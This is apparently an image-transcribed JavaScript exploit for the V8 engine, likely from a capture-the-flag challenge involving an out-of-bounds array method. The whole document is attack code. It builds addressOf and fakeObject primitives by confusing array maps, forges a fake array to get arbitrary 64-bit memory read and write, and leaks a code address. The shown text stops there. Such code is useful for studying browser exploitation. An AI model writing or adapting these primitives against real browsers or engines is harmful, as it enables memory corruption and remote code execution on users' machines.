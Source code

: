```javascript

var obj = {"a": 1};
var obj_array = [obj];
var float_array = [1.1];

var obj_array_map = obj_array.oob();
var float_array_map = float_array.oob();

function addressOf(obj) // obj -> float addr
{
	obj_array[0] = obj;
	obj_array.oob(float_array_map);
	
	var object_addr = obj_array[0];
	obj_array.oob(obj_array_map);
	return f2i(object_addr)-1n;
}

function fakeObject(addr) // float addr -> obj
{
	var obj_addr = i2f(addr + 1n);
	float_array[0] = obj_addr; 
	float_array.oob(obj_array_map);

	var fake_object = float_array[0]; 
	float_array.oob(float_array_map);
	return fake_object;
}

var fake_array = [
	float_array_map,
	i2f(0n),
	i2f(0x41414141n),
	i2f(0x1000000000n),
	1.1,
	2.2
];

%DebugPrint(fake_array); // fake array map address
var fake_array_addr = addressOf(fake_array);
var fake_object_addr = fake_array_addr - 0x40n + 0x10n;
var fake_object = fakeObject(fake_object_addr);


function read64(addr)
{
	fake_array[2] = i2f(addr + 0x1n - 0x10n);
	var leak_info = f2i(fake_object[0]);
	//console.log("[*] leak addr: 0x" + hex(addr) + " data: 0x" + hex(leak_info));
	return leak_info;
}

function write64(addr, data)
{
	fake_array[2] = i2f(addr + 0x1n - 0x10n);
	fake_object[0] = i2f(data);
	//console.log("[*] write data to addr: 0x" + hex(addr) + " data: 0x" + hex(data));
}

var a = [1.1, 2.2];

var leak_code_addr = read64(addressOf(a.constructor) + 0x30n);
console.log("[*] leak code addr : 0x" + hex(leak_code_addr));
```
